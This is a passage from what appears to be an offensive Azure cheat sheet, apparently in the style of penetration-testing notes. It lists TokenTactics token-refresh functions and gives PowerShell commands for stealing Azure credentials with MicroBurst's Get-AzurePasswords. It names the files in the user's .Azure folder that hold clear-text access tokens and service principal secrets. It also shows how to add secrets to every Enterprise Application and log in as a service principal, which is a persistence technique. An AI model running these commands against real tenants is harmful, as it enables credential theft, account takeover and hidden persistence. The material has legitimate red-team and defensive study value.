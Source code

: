     Function        RefreshTo-GraphToken                               0.0.1      TokenTactics
    Function        RefreshTo-MAMToken                                 0.0.1      TokenTactics
    Function        RefreshTo-MSGraphToken                             0.0.1      TokenTactics
    Function        RefreshTo-MSManageToken                            0.0.1      TokenTactics
    Function        RefreshTo-MSTeamsToken                             0.0.1      TokenTactics
    Function        RefreshTo-O365SuiteUXToken                         0.0.1      TokenTactics
    Function        RefreshTo-OfficeAppsToken                          0.0.1      TokenTactics
    Function        RefreshTo-OfficeManagementToken                    0.0.1      TokenTactics
    Function        RefreshTo-OutlookToken                             0.0.1      TokenTactics
    Function        RefreshTo-SubstrateToken                           0.0.1      TokenTactics
    ```
    
    ⧉ Copied!
    

## Stealing Tokens

- Get-AzurePasswords
    
    ```powershell
    Import-Module Microburst.psm1
    Get-AzurePasswords
    Get-AzurePasswords -Verbose | Out-GridView
    ```
    
    ⧉ Copied!
    

### Stealing tokens from az cli

- az cli stores access tokens in clear text in **accessTokens.json** in the directory `C:\Users\<username>\.Azure`
- azureProfile.json in the same directory contains information about subscriptions.

### Stealing tokens from az powershell

- Az PowerShell stores access tokens in clear text in **TokenCache.dat** in the directory `C:\Users\<username>\.Azure`
- It also stores **ServicePrincipalSecret** in clear-text in **AzureRmContext.json**
- Users can save tokens using `Save-AzContext`

## Add credentials to all Enterprise Applications

```powershell
# Add secrets
PS > . C:\Tools\Add-AzADAppSecret.ps1
PS > Add-AzADAppSecret -GraphToken $graphtoken -Verbose

# Use secrets to authenticate as Service Principal
PS > $password = ConvertTo-SecureString '<SECRET/PASSWORD>' -AsPlainText -Force
PS > $creds = New-Object System.Management.Automation.PSCredential('<AppID>', $password)
PS > Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant '<TenantID>'
```
